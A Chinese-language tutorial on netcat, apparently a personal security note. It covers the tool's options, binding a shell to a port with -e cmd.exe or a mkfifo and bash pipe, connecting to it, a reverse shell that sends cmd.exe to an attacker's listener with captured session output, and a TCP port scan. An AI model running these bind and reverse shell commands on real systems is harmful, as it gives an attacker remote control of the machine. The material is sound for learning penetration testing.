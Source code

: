## netcat使用

netcat 有很多不同的实现。

下面的链接可以下载到适用于windows的带-e参数的netcat程序

<https://eternallybored.org/misc/netcat/>



### 用到的参数

nc [参数] 主机 端口

-l  指定nc使用监听模式，而不是对指定的主机端口进行连接

-p 端口 指定源端口

-e 文件 指定在建立连接后，运行该文件并将输入输出定向到该文件（有的实现是-c）

-v 让nc提供更多的信息

-w 秒数 指定超时时间

-z 只进行端口扫描，不发送数据。欲查看是否开放端口需要使用-v参数



### 例子



#### 将本机的0.0.0.0:9999绑定一个shell

**有-e参数的情况下**

`nc -lv 9999 -e cmd.exe`

**使用管道符和输入输出重定向来实现绑定(Linux)**

```shell
$ mkfifo /tmp/stdin
$ cat /tmp/stdin | /bin/bash -i 2>&1 | nc -l 0.0.0.0 9999 >/tmp/stdin
```

`mkfifo /tmp/stdin` 的作用是创建一个管道文件。管道文件里的数据读取后就会被清空

`| /bin/bash -i 2>&1` 的作用是将管道文件里的数据作为/bin/bash文件运行的时的输入，指定使用交互模式，并将错误信息stderr定向到stdout

#### 连接对方主机的shell

```shell
$ nc 192.168.247.21 9999
leaf@leaf-vm:/mnt/hgfs/workspace/security/pwn_code/how2heap/test_groud$ ls
ls
house_of_spirit.c
re
```

#### 反弹shell

**在有-e参数的情况下**

首先在攻击者的机器上监听一个端口

`nc -lv 0.0.0.0 7777`

然后在受害者的机器上连接攻击者，并将shell传递过去

`nc 192.168.247.21 7777 -e cmd.exe`

创建连接后，攻击者就会收到一个shell

由于两个系统使用的编码不同，所以有乱码。解决的办法是修改Linux的terminal的编码为GBK

```
$ nc -lv 0.0.0.0 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from [192.168.247.1] port 7777 [tcp/*] accepted (family 2, sport 8928)
Microsoft Windows [�汾 10.0.17134.799]
(c) 2018 Microsoft Corporation����������Ȩ����

C:\workspace\download\netcat-mingw>dir
dir
 ������ C �еľ��� Windows 10
 �������к��� D835-5B8C

 C:\workspace\download\netcat-mingw ��Ŀ¼

2019/05/27  17:48    <DIR>          .
2019/05/27  17:48    <DIR>          ..
2004/12/28  12:23            12,166 doexec.c
1996/07/09  17:01             7,283 generic.h
1996/11/06  23:40            22,784 getopt.c
1994/11/03  20:07             4,765 getopt.h
1998/02/06  16:50            61,780 hobbit.txt
2004/12/27  18:37            18,009 license.txt
2011/09/17  00:46               300 Makefile
2011/09/17  00:52            38,616 nc.exe
2011/09/17  00:52            45,272 nc64.exe
2011/09/17  00:44            69,850 netcat.c
2011/09/17  00:45             6,885 readme.txt
              11 ���ļ�        287,710 �ֽ�
               2 ��Ŀ¼ 26,625,261,568 �����ֽ�

C:\workspace\download\netcat-mingw>

```



#### 端口扫描

对某个主机进行tcp端口扫描

```shell
$ nc -zvw 2 192.168.247.24 22-200
Connection to 192.168.247.24 22 port [tcp/ssh] succeeded!
nc: connect to 192.168.247.24 port 23 (tcp) timed out: Operation now in progress
nc: connect to 192.168.247.24 port 24 (tcp) timed out: Operation now in progress
nc: connect to 192.168.247.24 port 25 (tcp) timed out: Operation now in progress
nc: connect to 192.168.247.24 port 26 (tcp) timed out: Operation now in progress
nc: connect to 192.168.247.24 port 27 (tcp) timed out: Operation now in progress
nc: connect to 192.168.247.24 port 28 (tcp) timed out: Operation now in progress
nc: connect to 192.168.247.24 port 29 (tcp) timed out: Operation now in progress
```



### 参考

mkfifo 命令创建命名管道实现进程之间通信 <https://blog.csdn.net/orangleliu/article/details/49133199>